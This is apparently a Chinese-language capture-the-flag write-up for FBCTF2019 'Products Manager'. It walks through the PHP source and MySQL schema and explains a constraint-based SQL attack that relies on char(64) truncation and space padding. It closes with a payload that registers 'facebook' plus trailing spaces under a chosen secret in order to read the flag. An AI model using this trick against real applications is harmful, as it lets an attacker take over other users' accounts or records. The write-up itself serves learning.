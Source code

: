 # \[FBCTF2019]Products Manager

## \[FBCTF2019]Products Manager

## 考点

* 基于基于约束的SQL攻击的

## wp

给了源码，有三个功能，查看前五个产品、添加新产品和查看产品细节

大致看了一下源码，提示flag在facebook的description中

查看前五个产品就是index.php，执行db.php的`get_top_products()`函数，查询语句是写死的，获取前五个name

添加新产品是add.php，需要参数name、secret和description，其中name和description不为空，secret由大小写字母和数字组成，并且长度要大于等于10。然后使用`get_product($name)`判断是否已存在，然后调用`insert_product($name, hash('sha256', $secret), $description)`插入数据

```php
function get_product($name) {
  global $db;
  $statement = $db->prepare(
    "SELECT name, description FROM products WHERE name = ?"
  );
  check_errors($statement);
  $statement->bind_param("s", $name);
  check_errors($statement->execute());
  $res = $statement->get_result();
  check_errors($res);
  $product = $res->fetch_assoc();
  $statement->close();
  return $product;
}
function insert_product($name, $secret, $description) {
  global $db;
  $statement = $db->prepare(
    "INSERT INTO products (name, secret, description) VALUES
      (?, ?, ?)"
  );
  check_errors($statement);
  $statement->bind_param("sss", $name, $secret, $description);
  check_errors($statement->execute());
  $statement->close();
}
```

查看产品细节是view.php，需要参数name和secret。然后调用`check_name_secret($name, hash('sha256', $secret))`判断name和secret是否对应，最后调用`get_product($name)`获取数据

```php
function check_name_secret($name, $secret) {
  global $db;
  $valid = false;
  $statement = $db->prepare(
    "SELECT name FROM products WHERE name = ? AND secret = ?"
  );
  check_errors($statement);
  $statement->bind_param("ss", $name, $secret);
  check_errors($statement->execute());
  $res = $statement->get_result();
  check_errors($res);
  if ($res->fetch_assoc() !== null) {
    $valid = true;
  }
  $statement->close();
  return $valid;
}
```

这里是基于约束的SQL攻击，要求name和secret都是64位。

```sql
CREATE TABLE products (
  name char(64),
  secret char(64),
  description varchar(250)
);

INSERT INTO products VALUES('facebook', sha256(....), 'FLAG_HERE');
INSERT INTO products VALUES('messenger', sha256(....), ....);
INSERT INTO products VALUES('instagram', sha256(....), ....);
INSERT INTO products VALUES('whatsapp', sha256(....), ....);
INSERT INTO products VALUES('oculus-rift', sha256(....), ....);
```

如果输入的超过64位，分类讨论一下，查询(select)和插入(insert)

在查询中进行字符串比较时，若两字符串长度不一样，则会在较短的字符串末尾填充空格，使两个字符串长度一致。

在插入时若数据长度超过了预先设定的限制，数据库会对字符串进行截断，只保留限定的长度。

本题payload，在burp中操作好点

```
add.php
name:facebook+'%20'*64
secret:aaaaBBBB1234
description:1111

view.php
name:facebook
secret:aaaaBBBB1234
```
